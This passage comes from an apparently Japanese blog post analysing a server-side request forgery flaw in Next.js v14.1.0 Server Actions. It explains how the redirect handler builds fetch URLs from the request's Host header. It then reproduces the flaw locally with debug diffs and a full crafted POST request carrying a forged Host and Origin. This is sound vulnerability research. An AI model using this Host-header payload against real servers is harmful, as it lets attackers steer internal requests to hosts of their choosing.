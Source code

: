 このリダイレクト先のRSC Payloadを生成するための処理が`createRedirectRenderResult`で、この関数は**リダイレクト先URLにリクエストを投げることでRSC Payloadを取得**していました。

例を挙げます。 `http://localhost:3000` からServer Actions内で`redirect("/hoge")`が呼び出されると、`createRedirectRenderResult`は `http://localhost:3000/hoge` へ向けてfetch（前述の通り`HEAD`+`GET`）してRSC Payloadを取得します。Next.jsサーバーからNext.jsサーバーへリクエストしているのです。このリクエスト処理が前述の`fetch`の部分で、前述の通りfetch先のURLの組み立てにユーザーからのリクエストヘッダーの`Host`を参照していたのです。

### 実際に攻撃が成り立つのかlocalhostで試してみる

ここまではNext.jsの実装を元に説明してきましたが、実際にこれが攻撃として成立するのかローカル環境で検証してみました。

脆弱性が含まれているとされるNext.jsの`v14.1.0`のコードをチェックアウトして、`createRedirectRenderResult`内にdebugコードを追加します。

```diff
  const fetchUrl = new URL(`${proto}://${host}${basePath}${redirectUrl}`)
+ console.log(">>> fetchUrl", fetchUrl);
```

```diff
  const headResponse = await fetch(fetchUrl, {
    method: 'HEAD',
    headers: forwardedHeaders,
    next: {
      // @ts-ignore
      internal: 1,
    },
  })
+   .catch((err) => {
+     console.error(">>> HEAD Request error", err);
+     throw err;
+   });
```

この状態でNext.jsのパッケージをbuildし、これを利用したサンプルアプリケーションに対し`Host`を改ざんしたリクエストを送信すれば`fetchUrl`が任意のものに書き変わる様子がみて取れるはずです。今回は `http://localhost:3000` に対し`Host: localhost:9999`を付与したリクエストを送ってみます。筆者の検証環境に `http://localhost:9999 `は存在しないので、`HEAD`リクエストが失敗して上記の`catch`に仕込んだエラーログが出力されるはずです。

以下は実際にサンプルアプリケーションからServer Actionsを呼び出した際のPOSTリクエストを元に、`Host`と`Origin`を改ざんしたhttpリクエストです。

```http
POST http://localhost:3000/ HTTP/1.1
Accept: text/x-component
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: ja,en-US;q=0.9,en;q=0.8
Connection: keep-alive
Content-Length: 279
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBxBctGejLCXmkZbu
Host: localhost:9999
Next-Action: 2436a10b19c8cb512110aa93eaeb1eedad656714
Next-Router-State-Tree: %5B%22%22%2C%7B%22children%22%3A%5B%22__PAGE__%22%2C%7B%7D%5D%7D%2Cnull%2Cnull%2Ctrue%5D
Origin: http://localhost:9999
Referer: http://localhost:3000/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
sec-ch-ua: "Chromium";v="122", "Not(A:Brand";v="24", "Google Chrome";v="122"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"

------WebKitFormBoundaryBxBctGejLCXmkZbu
Content-Disposition: form-data; name="1_$ACTION_ID_2436a10b19c8cb512110aa93eaeb1eedad656714"


------WebKitFormBoundaryBxBctGejLCXmkZbu
```